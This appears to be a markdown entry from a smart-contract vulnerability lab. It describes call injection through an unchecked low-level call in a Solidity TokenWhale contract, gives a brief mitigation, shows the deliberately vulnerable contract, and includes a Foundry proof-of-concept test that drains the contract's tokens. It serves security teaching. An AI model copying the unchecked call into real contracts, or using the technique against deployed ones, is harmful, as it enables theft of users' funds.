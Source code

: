  # Unchecked external call - call injection  
 [UnsafeCall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/UnsafeCall.sol)  
 **Name:** Unsafe Call Vulnerability

**Description:**  
In TokenWhale contract's approveAndCallcode function. The vulnerability allows an
arbitrary call to be executed with arbitrary data, leading to potential security risks
and unintended consequences. The function uses a low-level call (_spender.call(_extraData))
to execute code from the _spender address without any validation or checks on the provided _extraData.
This can lead to unexpected behavior, reentrancy attacks, or unauthorized operations.

This excersise is about  a low level call to a contract where input and return values are not checked
If the call data is controllable, it is easy to cause arbitrary function execution.

**Mitigation:**  
Use of low level "call" should be avoided whenever possible.

**REF**  

https://blog.li.fi/20th-march-the-exploit-e9e1c5c03eb9

**TokenWhale Contract:**  
```
contract TokenWhale {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000; // 1 mil
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 value
    );

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }

    /* Approves and then calls the contract code*/

    function approveAndCallcode(
        address _spender,
        uint256 _value,
        bytes memory _extraData
    ) public {
        allowance[msg.sender][_spender] = _value;

        bool success;
        // vulnerable call execute unsafe user code
        (success, ) = _spender.call(_extraData);
        console.log("success:", success);
    }
}
```  
**How to Test:**

forge test --contracts src/test/UnsafeCall.sol-vvvv  
```
// Function to test the UnsafeCall vulnerability
function testUnsafeCall() public {
    // Setup the environment
    address alice = vm.addr(1);
    TokenWhaleContract = new TokenWhale();
    TokenWhaleContract.TokenWhaleDeploy(address(TokenWhaleContract));

    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );

    // Alice tries to perform an unsafe call to transfer asset from TokenWhaleContract
    console.log(
        "Alice tries to perform unsafe call to transfer asset from TokenWhaleContract"
    );

    // Using the vm.prank() function to change the msg.sender
    vm.prank(alice);

    // Alice calls the approveAndCallcode function with encoded data that represents a call to the transfer function
    TokenWhaleContract.approveAndCallcode(
        address(TokenWhaleContract),
        0x1337, // doesn't affect the exploit
        abi.encodeWithSignature(
            "transfer(address,uint256)",
            address(alice),
            1000
        )
    );

    // Check if the exploit is successful
    assertEq(TokenWhaleContract.balanceOf(address(alice)), 1000);
    console.log("Exploit completed");

    // Log the final balances
    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );
    console.log(
        "Alice balance:",
        TokenWhaleContract.balanceOf(address(alice))
    );
}

// A fallback function to receive ether
receive() external payable {}
```
Red box: exploited successful, drained out the TokenWhale.  
![Alt text](image-7.png)
